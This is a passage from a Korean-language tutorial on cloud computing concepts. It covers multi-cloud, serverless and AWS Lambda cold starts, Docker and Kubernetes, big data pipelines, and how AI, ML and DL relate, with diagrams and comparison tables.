   - 한 클라우드 업체의 특정 기술(독점 API)에 시스템 전체가 종속되면, 향후 해당 업체가 이용료를 큰 폭으로 인상하거나 불리한 라이선스 정책을 강요해도 울며 겨자 먹기로 끌려갈 수밖에 없습니다.
   - 멀티 클라우드 전략은 협상력을 높이고 주도권을 기업이 쥐도록 돕습니다.
2. **완벽한 재해 복구(DR, Disaster Recovery)와 비즈니스 연속성:**
   - 아무리 거대한 AWS나 Azure라 할지라도 전 세계적인 광케이블 단선이나 전력망 사고, BGP 라우팅 오류로 리전 전체가 먹통이 되는 대형 장애가 발생하곤 합니다.
   - 금융이나 결제 시스템처럼 1분의 중단도 허용되지 않는 미션 크리티컬(Mission Critical) 서비스는 AWS 장애 시 즉시 GCP로 트래픽을 자동 우회하도록 설계합니다.
3. **각 클라우드 벤더의 최강 기술 취사선택 (Best-of-Breed):**
   - 글로벌 인프라의 안정성과 컴퓨팅 다양성은 **AWS**를 활용하고,
   - 방대한 로그 분석과 최신 머신러닝/AI 모델링은 **GCP(BigQuery, TPU)**를 사용하며,
   - 사내 임직원 인증과 윈도우 기반 엔터프라이즈 시스템 연동은 **Azure**를 채택하는 방식입니다.

#### 멀티 클라우드의 트레이드오프 (현실적 난관)
- **관리 복잡도 폭증:** 엔지니어가 AWS IAM과 GCP IAM, Azure 네트워킹 문법을 모두 능숙하게 다루어야 하므로 인재 확보 비용이 커집니다.
- **클라우드 간 데이터 전송 비용(Egress Cost):** 클라우드로 데이터를 넣을 때는 무료지만, 서로 다른 클라우드로 데이터를 뽑아낼 때는 기가바이트당 데이터 전송 요금이 비싸게 청구되므로 아키텍처 설계 시 세심한 주의가 필요합니다.

---

## 06. 서버리스 컴퓨팅은 무엇인가요?
> **서버 인프라 관리의 완전한 위임, FaaS(AWS Lambda), 이벤트 기반 호출, 사용한 밀리초(ms) 단위 과금, 콜드 스타트(Cold Start) 현상과 대처법**

클라우드 기술의 궁극적인 지향점은 "개발자가 인프라라는 존재 자체를 잊어버리게 만드는 것"입니다. 그 정점에 서 있는 패러다임이 바로 **서버리스(Serverless)**입니다.

---

### 6.1 서버리스(Serverless)의 본질: 서버가 없는 것이 아니다!

> **서버리스의 진짜 의미**  
> 서버리스라는 단어 때문에 "서버 컴퓨터가 아예 존재하지 않는 기술"로 오해하기 쉽습니다. 당연히 물리적인 서버는 클라우드 데이터센터 어딘가에서 치열하게 돌고 있습니다.  
> 서버리스의 진짜 의미는 **"개발자 입장에서 서버를 프로비저닝하고, OS 패치를 하고, CPU 용량을 가늠하고, 스케일링을 고민할 필요가 전혀 없는(Server-less), 인프라 관리의 완전한 위임"**입니다.

과거에는 웹 API 하나를 만들려고 해도 EC2 가상 서버를 띄우고, 리눅스 보안 패치를 하고, Nginx 웹 서버를 띄우며, 트래픽을 대비해 오토스케일링 규칙을 걸어야 했습니다. 

하지만 서버리스 환경에서는 개발자가 오직 **"실행될 소스코드 함수(Function)"** 하나만 작성해서 클라우드에 등록하면 끝납니다.

---

### 6.2 FaaS(Function as a Service)의 선구자: AWS Lambda

서버리스를 대표하는 실행 모델이 바로 **FaaS(서비스형 함수)**이며, 그 대표주자가 2014년 등장하여 세상을 뒤흔든 **AWS Lambda(람다)**입니다.

```mermaid
sequenceDiagram
    autonumber
    actor User as 사용자 (모바일 앱)
    participant S3 as Amazon S3 (사진 저장소)
    participant Lambda as AWS Lambda (썸네일 생성 함수)
    participant DB as DynamoDB (메타데이터 DB)

    User->>S3: 1. 고화질 프로필 사진 업로드 (4K 이미지)
    Note over S3: 객체 생성 이벤트(ObjectCreated) 발생!
    S3->>Lambda: 2. 비동기 이벤트 트리거 전송
    Note over Lambda: 마이크로VM 컨테이너 초고속 기동<br/>이미지 리사이징(128x128) 수행
    Lambda->>S3: 3. 변환된 썸네일 이미지 저장
    Lambda->>DB: 4. 유저 프로필 이미지 URL 갱신
    Note over Lambda: 함수 실행 종료 및 인스턴스 자동 소멸
```

#### FaaS의 핵심 동작 원리
1. **상시 구동(Always-On)이 아닌 이벤트 기반(Event-Driven) 호출:**
   - 람다 함수는 24시간 켜져서 전기를 낭비하지 않습니다. 평소에는 완전히 잠들어 있습니다.
   - S3에 파일이 올라오거나, API Gateway로 HTTP 요청이 도달하거나, 메시지 큐(SQS)에 새 데이터가 들어오는 순간 즉시 깨어나 단 한 번 실행되고 사라집니다.
2. **경이로운 1밀리초(ms) 단위 종량제 과금:**
   - 기존 가상 서버(EC2)는 사용자가 한 명도 안 들어오는 심야 시간대에도 켜져 있는 시간(초 단위) 전체에 대해 돈을 내야 했습니다.
   - AWS Lambda는 **함수가 실제로 코드를 실행한 정확한 시간(밀리초, ms)**과 함수에 할당한 메모리 양에 대해서만 과금합니다. 호출이 전혀 없으면 청구 금액은 완벽한 **0원**입니다.
3. **무한한 자동 확장(Automatic Concurrency):**
   - 1초에 요청이 1건 오면 컨테이너 1개가 떠서 처리합니다.
   - 찰나의 순간에 1만 건의 동시 요청이 쏟아지면, 개발자가 아무 조치를 취하지 않아도 클라우드가 순식간에 1만 개의 격리된 실행 환경을 동시에 병렬로 띄워 1초 만에 해치워 버립니다.

---

### 6.3 서버리스의 최대 난제: 콜드 스타트(Cold Start) 현상과 대처법

서버리스가 완벽한 은탄환(Silver Bullet)처럼 보이지만, 실시간 대화형 서비스에서 반드시 해결해야 할 고질적인 문제가 있습니다. 바로 **콜드 스타트(Cold Start)**입니다.

```mermaid
sequenceDiagram
    autonumber
    participant Request as 클라이언트 요청
    participant Lambda as 람다 실행 인프라

    rect rgb(255, 235, 235)
    Note over Lambda: [콜드 스타트 발생 (지연시간 수백 ms ~ 수 초)]
    Request->>Lambda: 1. 오랜만에 새로운 요청 도착 (유휴 상태)
    Note over Lambda: ① 격리된 마이크로VM(Firecracker) 할당<br/>② 함수 코드 다운로드<br/>③ 런타임 환경(Node/Python/JVM) 부팅<br/>④ 전역 코드 및 무거운 DB 라이브러리 초기화
    end
    
    Lambda-->>Request: 2. 비즈니스 로직 실행 및 응답 반환
    
    rect rgb(235, 255, 235)
    Note over Lambda: [웜 상태 유지 (Warm State: 약 5~15분간 컨테이너 보존)]
    Request->>Lambda: 3. 연이어 두 번째 요청 도착
    Note over Lambda: 즉시 비즈니스 로직만 실행! (지연시간 5ms 이내)
    Lambda-->>Request: 4. 초고속 응답 반환
    end
```

- **웜 스타트 (Warm Start):** 이미 메모리에 올라와 대기 중인 컨테이너가 요청을 받아 즉시(수 밀리초 이내) 실행되는 상태입니다.
- **콜드 스타트 (Cold Start):** 유휴 상태이거나 트래픽이 급증하여 새로운 가상 실행 환경을 밑바닥부터 띄워야 할 때 발생합니다. 환경 격리, 런타임 부팅, 무거운 의존성 라이브러리 로딩으로 인해 첫 번째 응답에 수백 밀리초에서 길게는 수 초의 랙(지연)이 발생합니다.

#### 현업 시니어 엔지니어들의 콜드 스타트 극복 비법
1. **프로비저닝된 동시성 (Provisioned Concurrency) 적용:**
   - AWS Lambda의 기능으로, 일정 수량의 실행 환경을 미리 항상 웜(Warm) 상태로 예열해 두어 콜드 스타트를 100% 원천 차단합니다 (약간의 고정 대기 비용 발생).
2. **경량 런타임 언어 선택:**
   - 거대한 JVM(Java Virtual Machine)을 띄우고 수많은 스프링 빈(Spring Bean)을 등록해야 하는 전통적인 Java 환경은 콜드 스타트가 4~8초에 달할 수 있습니다.
   - 부팅 속도가 압도적으로 빠른 **Go, Rust, Node.js, Python** 같은 가벼운 언어를 사용하면 콜드 스타트를 100ms 이내로 단축할 수 있습니다.
3. **불필요한 SDK 의존성 가지치기(Tree-Shaking):**
   - 람다 코드에서 거대한 `aws-sdk` 전체를 임포트하지 않고, 필요한 특정 클라이언트(예: `@aws-sdk/client-s3`)만 핀포인트로 임포트하여 패키지 번들 크기를 수십 메가바이트에서 수백 킬로바이트 수준으로 다이어트시킵니다.
4. **웜업 핑(Warm-up Ping) 스케줄러:**
   - CloudWatch Event(EventBridge)를 이용해 5분마다 람다 함수에 빈 더미(Dummy) 신호를 보내 컨테이너가 동면(Sleep)에 들어가지 않도록 깨워두는 트릭을 활용합니다.

---

## 07. 도커, 컨테이너, 쿠버네티스란 무엇인가요?
> **가상 머신(Hypervisor 기반) vs 컨테이너(OS 커널 공유) 비교, 도커 이미지와 컨테이너, 쿠버네티스(K8s)의 컨테이너 오케스트레이션(배포, 스케일링, 자가치유) 핵심 원리**

현대 클라우드 네이티브(Cloud-Native) 엔지니어링의 표준 기술을 단 두 단어로 요약하자면 바로 **도커(Docker)**와 **쿠버네티스(Kubernetes)**입니다. 이 기술들은 소프트웨어를 패키징하고 대규모로 배포하는 방식을 근본적으로 혁신했습니다.

---

### 7.1 "제 컴퓨터에서는 잘 되는데, 서버에서는 왜 안 되죠?"

개발팀에서 매일같이 벌어지던 가장 끔찍한 비극은 바로 **'환경 불일치(Matrix of Hell)'**였습니다.
- 개발자 맥북: macOS, Node.js v20, 최신 OpenSSL, 로컬 환경변수 세팅 완료 -> 정상 동작!
- 스테이징 서버: Ubuntu 20.04, Node.js v18, 구버전 C 라이브러리 충돌 -> **런타임 에러 뿜으며 서비스 폭파!**

이 문제를 해결하기 위해 과거에는 가상 머신(VM)을 통째로 넘기곤 했습니다. 하지만 VM은 너무나 무겁고 느렸습니다. 여기서 혜성처럼 등장한 구원투수가 바로 **컨테이너(Container)**입니다.

---

### 7.2 가상 머신(VM) vs 컨테이너(Container) 기술적 차이

```mermaid
flowchart TD
    subgraph VM_Arch["전통적인 가상 머신 (Hypervisor 기반)"]
        direction TB
        App1["App A (바이너리/라이브러리)"]
        GOS1["게스트 OS (Windows/Ubuntu) 몇 GB"]
        App2["App B (바이너리/라이브러리)"]
        GOS2["게스트 OS (CentOS) 몇 GB"]
        Hyp["하이퍼바이저 (Type-1/Type-2: ESXi, KVM)"]
        HostOS1["호스트 운영체제 (Host OS)"]
        HW1["물리적 서버 인프라 (CPU, RAM, DISK)"]
        
        App1 --> GOS1
        App2 --> GOS2
        GOS1 --> Hyp
        GOS2 --> Hyp
        Hyp --> HostOS1 --> HW1
    end

    subgraph Docker_Arch["현대적인 도커 컨테이너 (OS 커널 공유)"]
        direction TB
        CApp1["App A (라이브러리 격리)"]
        CApp2["App B (라이브러리 격리)"]
        Docker["도커 엔진 (Container Runtime)"]
        Kernel["호스트 OS 리눅스 커널 (Namespace / cgroups)"]
        HW2["물리적 서버 인프라 (CPU, RAM, DISK)"]

        CApp1 --> Docker
        CApp2 --> Docker
        Docker --> Kernel --> HW2
    end
```

- **가상 머신 (VM):**
  - 물리 하드웨어 위에 **하이퍼바이저(Hypervisor)**를 올리고, 그 위에 가상 하드웨어를 에뮬레이트한 뒤 **완전한 독립 게스트 OS(Guest OS)**를 각각 설치합니다.
  - 게스트 OS 하나가 수 기가바이트(GB)의 디스크와 수백 메가바이트의 메모리를 잡아먹으며, 부팅하는 데만 수 분이 걸립니다.
- **컨테이너 (Container):**
  - 호스트 OS의 **리눅스 커널(Kernel)을 모든 컨테이너가 직접 공유**합니다.
  - 리눅스 커널의 핵심 기능인 **네임스페이스(Namespace: 프로세스, 파일시스템, 네트워크 격리)**와 **cgroups(Control Groups: CPU, 메모리 자원 사용량 제한)** 기술을 이용해, 마치 독립된 OS에 있는 것처럼 프로세스를 샌드박스 형태로 완벽히 격리합니다.
  - 게스트 OS가 없으므로 크기가 수십 메가바이트(MB)에 불과하며, 부팅 과정 없이 프로세스가 즉각 뜨므로 **0.1초 만에 기동**됩니다.

---

### 7.3 도커(Docker)의 핵심 3요소

도커는 리눅스의 복잡한 컨테이너 격리 기술을 누구나 명령어 한 줄로 다룰 수 있도록 대중화시킨 혁명적 도구입니다.

```mermaid
flowchart LR
    DF["Dockerfile (작성한 빌드 명세서)"] -->|docker build| IMG["Docker Image (불변의 실행 스냅샷)"]
    IMG -->|docker push| Reg["Docker Hub / ECR (이미지 레지스트리)"]
    Reg -->|docker pull| Srv["운영 서버"]
    Srv -->|docker run| C1["컨테이너 A (격리 프로세스)"]
    Srv -->|docker run| C2["컨테이너 B (격리 프로세스)"]
```

1. **Dockerfile (빌드 레시피):** 어떤 베이스 OS 이미지를 쓰고, 어떤 소스코드를 복사하며, 어떤 패키지를 설치하고, 마지막에 어떤 명령어를 실행할지 텍스트로 적어둔 설계도입니다.
2. **도커 이미지 (Docker Image):** Dockerfile을 빌드하여 만들어진 **읽기 전용(Read-only)의 불변(Immutable) 실행 파일 묶음**입니다. 애플리케이션 실행에 필요한 코드, 런타임, 시스템 라이브러리, 환경 설정이 완벽히 동결되어 담겨 있습니다.
3. **도커 컨테이너 (Docker Container):** 이미지를 실체화하여 메모리에 올려 격리된 프로세스로 실행시킨 상태입니다. 하나의 이미지로부터 완전히 동일한 컨테이너를 수천 개 찍어낼 수 있습니다.

> **"한 번 빌드하면, 어디서나 실행된다 (Build Once, Run Anywhere)"**  
> 내 로컬 노트북에서 빌드되어 정상 동작한 도커 이미지는 테스트 서버, 온프레미스 서버, AWS 클라우드, 구글 클라우드 어디로 가져가도 0.001%의 오차도 없이 100% 동일하게 동작합니다.

---

### 7.4 컨테이너가 수백 개로 늘어난다면? 쿠버네티스(Kubernetes, K8s)

도커 덕분에 컨테이너를 쉽게 만들 수 있게 되었지만, 마이크로서비스 아키텍처(MSA)가 도입되면서 또 다른 거대한 문제가 발생했습니다.

> *"운영 서버가 100대이고, 그 위에서 돌아가는 도커 컨테이너가 1,000개입니다. 37번 서버에 트래픽이 몰리는데 어떤 서버로 컨테이너를 옮겨야 할까요? 82번 서버의 컨테이너가 새벽 3시에 메모리 누수로 죽었습니다. 누가 다시 띄워주죠? 새 버전 코드를 1,000개 컨테이너에 서비스 중단 없이 배포하려면 어떻게 해야 하나요?"*

사람의 손으로 수천 개의 컨테이너를 일일이 관리하는 것은 불가능합니다. 수많은 서버 위에 컨테이너를 자동으로 배치하고, 확장하며, 장애를 복구해 주는 **오케스트라 지휘자**가 필요해졌습니다. 이 역할을 수행하는 사실상의 전 세계 표준(De-facto Standard) 플랫폼이 바로 **쿠버네티스(K8s)**입니다. (K와 s 사이에 8글자가 있어서 K8s라고 부릅니다.)

---

### 7.5 쿠버네티스의 3대 핵심 메커니즘과 아키텍처

쿠버네티스의 핵심 철학은 **"선언적 상태 관리(Declarative State Management)"**입니다. 엔지니어가 "컨테이너를 띄워라, 죽여라" 명령(Imperative)을 내리지 않고, YAML 파일에 **"내가 원하는 최종 상태(Desired State)는 Nginx 컨테이너 3개가 항상 살아있는 것이다"**라고 선언해 둡니다. 그러면 쿠버네티스는 24시간 감시 루프(Control Loop)를 돌며 현재 상태를 원하는 상태와 일치시킵니다.

```mermaid
flowchart TD
    subgraph CP["컨트롤 플레인 (Control Plane: 마스터 노드)"]
        API["kube-apiserver (모든 요청의 단일 관문)"]
        ETCD[("etcd (클러스터 상태 저장 분산 DB)")]
        SCHED["kube-scheduler (어느 노드에 파드를 띄울지 결정)"]
        CTRL["kube-controller-manager (상태 감시 및 자가치유 루프)"]
        API <--> ETCD
        API <--> SCHED
        API <--> CTRL
    end

    subgraph W1["워커 노드 1 (Worker Node 1)"]
        Kubelet1["kubelet (에이전트)"]
        Proxy1["kube-proxy (네트워크)"]
        CR1["Container Runtime (containerd)"]
        Pod1["Pod A (컨테이너 묶음)"]
        Pod2["Pod B"]
        Kubelet1 --> CR1 --> Pod1
        CR1 --> Pod2
    end

    subgraph W2["워커 노드 2 (Worker Node 2)"]
        Kubelet2["kubelet"]
        CR2["Container Runtime"]
        Pod3["Pod A (복제본)"]
        Pod4["Pod C"]
        Kubelet2 --> CR2 --> Pod3
        CR2 --> Pod4
    end

    API <---> Kubelet1
    API <---> Kubelet2
```

#### 쿠버네티스가 제공하는 마법 같은 3대 기능
1. **자가 치유 (Self-Healing):** 
   - 워커 노드 1번의 하드웨어가 완전히 타버려 파드(Pod)들이 죽으면, 컨트롤러가 이를 즉각 감지하고 살아있는 워커 노드 2번에 똑같은 파드를 즉시 재생성하여 원하는 파드 개수(3개)를 맞춥니다.
2. **무중단 롤링 업데이트 (Zero-Downtime Rolling Update) & 롤백:**
   - 구버전 파드(v1) 3개가 돌아가는 중에 v2 배포 명령이 내려오면, v2 파드를 하나 띄워 헬스체크가 통과되면 v1 파드를 하나 죽이는 방식으로 점진 교체합니다. 사용자는 단 1밀리초의 다운타임도 느끼지 못합니다. 문제가 발견되면 즉시 이전 버전으로 원클릭 롤백합니다.
3. **수평적 파드 자동 확장 (HPA: Horizontal Pod Autoscaler):**
   - 파드들의 CPU 사용률이 지정한 임계치(예: 70%)를 넘으면 파드 개수를 3개에서 10개, 30개로 자동 증설하고, 트래픽이 빠지면 다시 줄입니다.

---

## 08. 빅데이터란 무엇인가요?
> **데이터의 3V(Volume, Velocity, Variety) + Value, Veracity, 비정형 데이터의 급증, 데이터 수집 -> 저장 -> 처리 -> 시각화 파이프라인, 데이터 웨어하우스(DW) vs 데이터 레이크(Data Lake)**

오늘날 하루 동안 전 세계에서 생성되는 데이터의 양은 수백 엑사바이트(EB)에 달합니다. 스마트폰 터치 한 번, 결제 내역, 배달 앱의 GPS 이동 경로, 스마트워치의 심박수, 공장 센서의 진동 로그까지 인류의 모든 발자취가 데이터로 기록되고 있습니다. 이 방대한 데이터를 우리는 **빅데이터(Big Data)**라고 부릅니다.

---

### 8.1 빅데이터의 본질: 3V에서 5V로의 확장

단순히 하드디스크에 저장된 용량이 크다고 해서 빅데이터가 아닙니다. 빅데이터는 전통적인 단일 데이터베이스(RDBMS)나 파일 시스템의 처리 한계를 뛰어넘는 복합적인 특성을 지닙니다.

```mermaid
mindmap
  root((빅데이터의 5V))
    Volume 규모
      테라바이트(TB)를 넘어 페타바이트(PB), 제타바이트(ZB)
      단일 서버 저장 불가 -> 분산 스토리지 필수
    Velocity 속도
      실시간 스트리밍 생성
      IoT 센서, 클릭스트림, 주식 호가 데이터 초당 수십만 건
    Variety 다양성
      정형 데이터 (RDB 테이블)
      반정형 데이터 (JSON, XML, 웹 로그)
      비정형 데이터 (이미지, 동영상, 텍스트 음성)
    Veracity 신뢰성/정확성
      노이즈와 결측치 속에서
      데이터의 품질과 신뢰도를 정제
    Value 가치
      가장 중요한 궁극적 목표
      비즈니스 통찰, 매출 증대, 위험 예측
```

1. **Volume (규모):** 데이터의 절대적인 양이 상상을 초월합니다. 단일 고성능 데이터베이스 서버의 디스크 용량 한계를 아득히 초과하므로 분산 파일 시스템(HDFS, S3)에 나누어 담아야 합니다.
2. **Velocity (속도):** 데이터가 생성되고, 유입되고, 처리되는 주기가 극도로 빠릅니다. 하루에 한 번 야간 배치(Batch)로 처리하던 시절을 지나, 실시간(Real-Time) 스트리밍 분석이 요구됩니다.
3. **Variety (다양성):** 전통적인 관계형 데이터베이스의 행(Row)과 열(Column)에 예쁘게 들어맞는 **정형 데이터(Structured Data)**는 전체 데이터의 20%도 되지 않습니다. 소셜 미디어 게시글, 고객 리뷰(텍스트), 사진, 유튜브 영상, 음성 녹음 등 규격화되지 않은 **비정형 데이터(Unstructured Data)**와 JSON, 로그 같은 **반정형 데이터(Semi-structured Data)**가 80% 이상을 차지합니다.
4. **Veracity (정확성 / 신뢰성):** 수집된 원천 데이터에는 이상치(Outlier), 중복값, 결측치, 네트워크 전송 오류 등 수많은 노이즈(Noise)가 섞여 있습니다. 이를 올바르게 정제(Data Cleansing)하여 신뢰성을 확보해야 합니다.
5. **Value (가치):** 아무리 방대한 데이터를 쌓아두어도 비즈니스 의사결정에 기여하지 못하거나 수익을 창출하지 못하면 그저 비싼 전기만 먹는 '데이터 쓰레기통(Data Swamps)'에 불과합니다.

---

### 8.2 엔드투엔드(End-to-End) 빅데이터 엔지니어링 파이프라인

원시 데이터(Raw Data)가 기업의 황금 같은 인사이트로 탈바꿈하기까지는 4단계의 체계적인 데이터 파이프라인을 거치게 됩니다.

```mermaid
flowchart LR
    subgraph Ingestion["1. 수집 (Ingestion)"]
        S_App["앱/웹 로그"]
        S_IoT["IoT 센서"]
        S_DB["운영 RDB (CDC)"]
        Kafka["Apache Kafka / Kinesis (실시간 분산 큐)"]
        S_App --> Kafka
        S_IoT --> Kafka
        S_DB --> Kafka
    end

    subgraph Storage["2. 저장 (Storage)"]
        Lake[("데이터 레이크\nAmazon S3 / GCS\n(Raw Data 원시 저장)")]
        Kafka --> Lake
    end

    subgraph Processing["3. 처리/변환 (Processing & ETL)"]
        Spark["Apache Spark / Flink\n(인메모리 초고속 분산 연산)"]
        Lake <--> Spark
    end

    subgraph Serving["4. 서빙 및 시각화 (Serving & Analytics)"]
        DW[("데이터 웨어하우스\nBigQuery / Snowflake\n(정제된 정형 데이터)")]
        BI["BI 대시보드\nTableau / Superset"]
        ML["AI/ML 모델 학습"]
        Spark --> DW
        DW --> BI
        Lake --> ML
    end
```

1. **수집 단계 (Ingestion):** 초당 수만 건씩 쏟아지는 로그와 트랜잭션을 버퍼링 유실 없이 안정적으로 받아내기 위해 **Apache Kafka**나 AWS Kinesis 같은 고성능 분산 메시징 큐를 파이프라인 최전선에 배치합니다.
2. **저장 단계 (Storage):** 원본 데이터의 형태를 훼손하지 않고 있는 그대로 무제한 저장할 수 있는 저비용·고내구성 클라우드 오브젝트 스토리지(S3, GCS)에 원시 데이터(Raw Data)를 영구 적재합니다.
3. **처리 및 변환 단계 (Processing / ETL):** 
   - 과거에는 **Hadoop MapReduce**를 써서 디스크 기반으로 느리게 연산했습니다.
   - 오늘날에는 데이터를 메모리에 올려 초고속으로 병렬 분산 처리하는 **Apache Spark**가 업계의 표준입니다. 데이터를 추출(Extract), 변환/정제(Transform), 적재(Load)하는 ETL 작업을 수행합니다.
4. **서빙 및 시각화 단계 (Analytics & Visualization):** 정제된 데이터를 SQL 기반으로 초고속 집계할 수 있는 데이터 웨어하우스로 보내 비즈니스 인텔리전스(BI) 대시보드로 시각화하거나, 머신러닝 엔지니어의 모델 학습 데이터셋으로 공급합니다.

---

### 8.3 데이터 아키텍처의 진화: 데이터 웨어하우스(DW) vs 데이터 레이크(Data Lake)

빅데이터 인프라를 설계할 때 가장 핵심적인 두 저장소의 차이를 이해해야 합니다.

```
[데이터 웨어하우스 (DW): 정제된 생수병]
 공장에서 흙과 불순물을 완벽히 거르고 살균하여 규격화된 페트병에 담아둔 생수.
 누구나 뚜껑을 열어 즉시 안심하고 마실 수 있지만(초고속 SQL 분석),
 강물 본연의 다양한 생태계 표본(비정형 원시 데이터)을 연구할 수는 없습니다.

[데이터 레이크 (Data Lake): 거대한 자연 호수]
 상류에서 흘러내려오는 빗물, 낙엽, 물고기, 흙탕물이 원형 그대로 끝없이 모이는 호수.
 온갖 비정형 데이터(이미지, 로그, 오디오)를 저렴한 비용으로 무제한 담아둘 수 있지만,
 정수기(Spark/ETL) 없이 그냥 마셨다가는 탈이 납니다.
```

#### DW vs Data Lake 핵심 비교표
| 비교 항목 | 데이터 웨어하우스 (Data Warehouse) | 데이터 레이크 (Data Lake) |
| :--- | :--- | :--- |
| **데이터 형태** | 엄격히 정제된 정형 데이터 위주 (RDBMS 테이블) | 원시 형태 그대로의 모든 데이터 (정형, 반정형, 비정형) |
| **스키마 적용 시점** | **Schema-on-Write** (저장하기 전에 스키마를 엄격히 검증) | **Schema-on-Read** (저장할 땐 아무렇게나 넣고, 읽을 때 해석) |
| **저장 비용** | 상대적으로 고비용 (고성능 SSD 및 컴퓨팅 결합) | 초저비용 (클라우드 오브젝트 스토리지 S3/GCS 활용) |
| **주요 사용자** | 비즈니스 분석가(BA), 마케터, 경영진, SQL 개발자 | 데이터 엔지니어, 데이터 사이언티스트, AI/ML 연구원 |
| **주요 질의 언어** | 표준 SQL (대화형 초고속 집계 질의) | Python, Scala, Java, Spark API, SQL |
| **대표 솔루션** | Google BigQuery, Snowflake, AWS Redshift | Amazon S3 + Apache Iceberg/Delta Lake, Hadoop HDFS |

> **최신 트렌드: 데이터 레이크하우스(Data Lakehouse)의 등장**  
> 최근에는 데이터 레이크의 저렴한 저장 비용과 유연성에, 데이터 웨어하우스의 ACID 트랜잭션 보장 및 고성능 SQL 엔진을 결합한 **'데이터 레이크하우스(Lakehouse)'** 아키텍처(Apache Iceberg, Databricks Delta Lake 등)가 엔터프라이즈의 표준으로 급부상하고 있습니다.

---

## 09. 빅데이터 vs 머신러닝 vs 인공지능
> **AI > ML > DL 포함 관계 다이어그램, 데이터가 모델을 학습시키는 원리, 지도학습, 비지도학습, 강화학습의 개념 및 비즈니스 활용**

뉴스나 마케팅에서는 AI, 머신러닝, 딥러닝, 빅데이터라는 단어가 마치 동의어인 양 혼용되곤 합니다. 하지만 기술적으로 이들은 매우 명확하고 엄격한 포함 관계와 상호보완적 역할을 가집니다.

---

### 9.1 개념의 혼란을 끝내는 포함 관계: AI > ML > DL

```mermaid
flowchart TD
    subgraph AI["인공지능 (Artificial Intelligence: 가장 넓은 범주)"]
        direction TB
        A_Desc["인간의 지적 능력(학습, 추론, 문제해결)을 흉내 내는 모든 기술<br/>(1950년대 체스 규칙 알고리즘, if-else 전문가 시스템 포함)"]
        
        subgraph ML["머신러닝 (Machine Learning: AI의 핵심 하위 분야)"]
            direction TB
            M_Desc["사람이 일일이 규칙을 코딩하지 않고, 데이터로부터 기계가 패턴을 학습하는 방식<br/>(선형 회귀, 의사결정나무, 랜덤 포레스트, SVM 등)"]
            
            subgraph DL["딥러닝 (Deep Learning: ML의 특화 하위 분야)"]
                direction TB
                D_Desc["인간 뇌의 뉴런을 모방한 심층 인공신경망(Deep Neural Networks) 구조<br/>(CNN, RNN, Transformer, LLM)"]
            end
        end
    end
```

- **인공지능 (AI):** 인간의 지능적 행동을 모방하는 컴퓨터 과학의 가장 거대한 우산입니다. 1950년대의 단순한 규칙 기반 `if-else` 전문가 시스템(Expert System)도 AI에 포함됩니다.
- **머신러닝 (ML):** AI를 달성하기 위한 구체적인 방법론 중 하나입니다. 인간이 모든 규칙을 하드코딩하는 대신, 대량의 데이터 속에서 컴퓨터가 스스로 통계적 패턴과 규칙을 찾아내도록 만듭니다.
- **딥러닝 (DL):** 머신러닝의 수많은 알고리즘 중, 인간의 뇌 신경망에서 영감을 얻은 **인공신경망(Artificial Neural Network)**을 여러 층(Deep Layer)으로 깊게 쌓아 올려 복잡한 특징(Feature)을 스스로 추출하는 기술입니다. 이미지 인식, 음성 합성, 현대의 대형 언어 모델(LLM)이 모두 딥러닝에 속합니다.

---

### 9.2 전통적 프로그래밍 vs 머신러닝: 사고방식의 대전환

소프트웨어 엔지니어링 역사에서 머신러닝의 등장은 코드를 작성하는 철학을 180도 바꾸어 놓았습니다.

```
[전통적 프로그래밍 (Traditional Programming)]
 규칙(코드/로직) ──┐
                  ├──> [ 컴퓨터 ] ───> 정답 (Output / 결과)
 데이터 (Input)   ──┘
 * 예: if (email.contains("무료 대출") && email.count("$$$") > 3) return SPAM;
 -> 스팸 발송자가 "무.료 대.출"로 문자를 바꾸면 엔지니어가 수작업으로 코드를 고쳐야 함!

[머신러닝 패러다임 (Machine Learning)]
 데이터 (Input)   ──┐
                  ├──> [ 머신러닝 알고리즘 ] ───> 규칙 (Model / 프로그램)
 정답 (Labels)    ──┘
 * 수백만 개의 정상 메일과 스팸 메일을 던져주면, 알고리즘이 "어떤 단어 조합이 스팸일 확률이 높은지"
   스스로 가중치(규칙)를 학습하여 '모델(Model)'을 출력함!
```

전통적 프로그래밍에서는 엔지니어가 머릿속으로 모든 예외 조건과 비즈니스 룰을 생각해서 코드로 짜야 했습니다. 하지만 머신러닝에서는 엔지니어가 규칙을 짜는 대신 **"좋은 데이터를 먹여서 기계가 최적의 함수 f(x) = y를 찾아내도록 학습 환경을 구축"**합니다.

---

### 9.3 머신러닝의 3대 학습 방식과 실무 비즈니스 활용

기계에게 데이터를 어떻게 제공하고 무엇을 학습시키느냐에 따라 머신러닝은 크게 세 가지로 분류됩니다.

```mermaid
flowchart TD
    ML_Types["머신러닝의 3대 학습 방식"]

    ML_Types --> Supervised["1. 지도학습 (Supervised Learning)\n문제(X)와 정답(Y)을 모두 주고 공부시킴"]
    ML_Types --> Unsupervised["2. 비지도학습 (Unsupervised Learning)\n정답(Y) 없이 문제(X)만 주고 숨겨진 패턴을 찾게 함"]
    ML_Types --> RL["3. 강화학습 (Reinforcement Learning)\n시행착오를 겪으며 보상(Reward)을 극대화하는 행동을 배움"]

    Supervised --> Sup_Reg["회귀 (Regression: 연속적 수치 예측)\n예: 내년 집값 예측, 분기별 매출액"]
    Supervised --> Sup_Clf["분류 (Classification: 불연속적 범주 분류)\n예: 스팸 여부, 암 종양 양성/음성 판정"]

    Unsupervised --> Un_Clust["군집화 (Clustering)\n예: 고객 소비 패턴 기반 VIP 그룹핑"]
    Unsupervised --> Un_Dim["이상 탐지 (Anomaly Detection)\n예: 신용카드 부정 결제(FDS) 적발"]

    RL --> RL_App["에이전트 행동 최적화\n예: 알파고(바둑), 자율주행, 로봇 제어, LLM 정렬(RLHF)"]
```

#### 1. 지도학습 (Supervised Learning): 선생님이 정답을 알려주는 공부
- **원리:** 입력 데이터(문제, X)와 함께 라벨(정답, Y)을 쌍으로 제공하여 둘 사이의 매핑 함수를 학습합니다.
- **회귀 (Regression):** 출력 결과가 연속된 숫자(수치)일 때 사용합니다.
  - *비즈니스 활용:* 아파트 평수, 역세권 거리, 학군 데이터를 보고 "이 아파트의 6개월 뒤 매매가" 예측하기.
- **분류 (Classification):** 출력 결과가 둘 중 하나(이진 분류)이거나 정해진 카테고리(다중 분류)일 때 사용합니다.
  - *비즈니스 활용:* 흉부 X-ray 사진을 보고 폐렴인지 정상인지 판별, 은행 대출 고객의 채무 불이행 가능성 예측.

#### 2. 비지도학습 (Unsupervised Learning): 자율적인 패턴 발견
